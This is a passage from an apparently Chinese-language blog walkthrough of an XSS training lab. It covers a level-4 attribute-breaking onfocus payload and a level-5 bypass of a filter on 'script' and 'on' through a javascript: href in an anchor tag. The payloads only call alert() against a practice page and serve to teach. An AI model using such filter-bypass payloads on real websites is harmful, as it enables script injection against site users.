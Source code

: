 我们看看代码



<img src="https://i-blog.csdnimg.cn/blog_migrate/9efae0b3d6c3e6d96a3061f463e5cce4.png" alt="" style="max-height:83px; box-sizing:content-box;" />


进行修改payload

```undefined
" onfocus=javascript:alert(1) '
```

## Level5   【过滤script】

我们使用第一题的payload直接上去



<img src="https://i-blog.csdnimg.cn/blog_migrate/61ace6ae3ab873c67d8fff3250d00ace.png" alt="" style="max-height:65px; box-sizing:content-box;" />


发现 script 变为了 scr_ipt

我们去看看源代码



<img src="https://i-blog.csdnimg.cn/blog_migrate/db67ec2cc3132d743a4f9480f1392034.png" alt="" style="max-height:167px; box-sizing:content-box;" />


发现过滤了 on 和 script

所以我们使用其他方式

### a herf

```cobol
<html
<p>123</p>
<a href=javascript:alert("yes")>xxxxxx</a>
</html>
```

我们先给出payload

然后我们解释一下



<img src="https://i-blog.csdnimg.cn/blog_migrate/cc528e34fe03f755daea0bf47bd2acb2.png" alt="" style="max-height:262px; box-sizing:content-box;" />


通过 a标签 然后点击 我们可以实现跳转等操作

既然可以实现跳转 那我们也可以实现 执行JavaScript命令

我们开始做题

我们先传入内容

```cobol
<a href=javascript:alert()>xxxxxx</a>
```
